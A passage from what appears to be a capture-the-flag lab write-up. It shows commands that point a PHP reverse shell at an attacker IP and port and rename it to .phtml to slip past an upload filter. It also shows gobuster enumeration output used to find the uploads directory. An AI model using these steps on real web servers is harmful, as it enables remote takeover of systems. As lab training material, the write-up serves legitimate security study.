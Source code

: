 This change was done with `sed` on the file.

```bash
file="/tmp/reverse.php"
sed -i '1{p;s/.*/$ip = "10.2.105.89";/;h;d;};/^$ip/{g;p;s/.*//;h;d;};$G' "$file"
sed -i '1{p;s/.*/$port = "8080";/;h;d;};/^$port/{g;p;s/.*//;h;d;};$G' "$file"
grep -A 1 '^$ip' "$file"
```

```text
$ip = "10.2.105.89";
$port = "8080";
```

To conform with the results from the Burpsuite, the `PHP` reverse shell filename was changed to end in `.phtml`.

```bash
file="/tmp/reverse.php"
mv -v "$file" /tmp/reverse.phtml
```

```text
renamed '/tmp/reverse.php' -> '/tmp/reverse.phtml'
```

The reverse shell was ready to be uploaded.


### Launching the exploit {#launching-the-exploit}

The reverse shell was uploaded to the web server uploader at `http://$ip:3333/internal/` as a `.pthml` file.
Where did the reverse shell end up?
More enumeration with `gobuster` was needed to find the upload directory.

```bash
gobuster dir -u http://$ip:3333/internal/ -w /usr/share/dirb/wordlists/common.txt
```

```text
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.186.25:3333/internal/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/01/11 18:59:58 Starting gobuster in directory enumeration mode
===============================================================

/.hta                 (Status: 403) [Size: 302]

/.htaccess            (Status: 403) [Size: 307]

/.htpasswd            (Status: 403) [Size: 307]

/css                  (Status: 301) [Size: 326] [--> http://10.10.186.25:3333/internal/css/]

/index.php            (Status: 200) [Size: 525]

/uploads              (Status: 301) [Size: 330] [--> http://10.10.186.25:3333/internal/uploads/]
===============================================================
2022/01/11 19:01:17 Finished
===============================================================
```